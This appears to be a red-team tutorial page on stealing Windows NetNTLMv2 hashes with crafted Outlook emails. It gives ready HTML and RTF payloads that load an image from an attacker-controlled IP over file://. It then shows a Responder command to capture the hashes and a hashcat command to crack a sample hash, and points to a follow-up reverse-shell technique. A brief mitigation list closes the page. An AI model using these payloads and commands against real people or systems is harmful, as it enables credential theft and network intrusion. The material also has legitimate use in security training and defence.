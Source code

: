```yaml
---
layout: post
title: "2024-06-18-netntlmv2 hash stealing using outlook"
date: 2024-06-18
categories: initial-access
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /netntlmv2-hash-stealing-using-outlook/
---
```


# NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

{% hint style="warning" %}
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
{% endhint %}

## Weaponization

Let's create a new HTML file with the below:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode %}

An RTF file also works:

{% code title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-09-57.png>)

Select the malicious messge.html and select `Insert as Text`:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-07.png>)

You should see that your message now looks like an HTML with a broken image (expected in our case since the path to the image is fake):

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-47.png>)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% code title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endcode %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server (running Responder). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](<../../.gitbook/assets/Peek 2018-12-28 15-05.gif>)

Once the hash is stolen, we can attempt cracking it:

{% code title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-16-46.png>)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% content-ref url="password-spraying-outlook-web-access-remote-shell.md" %}
[password-spraying-outlook-web-access-remote-shell.md](password-spraying-outlook-web-access-remote-shell.md)
{% endcontent-ref %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}
@spotheplanet
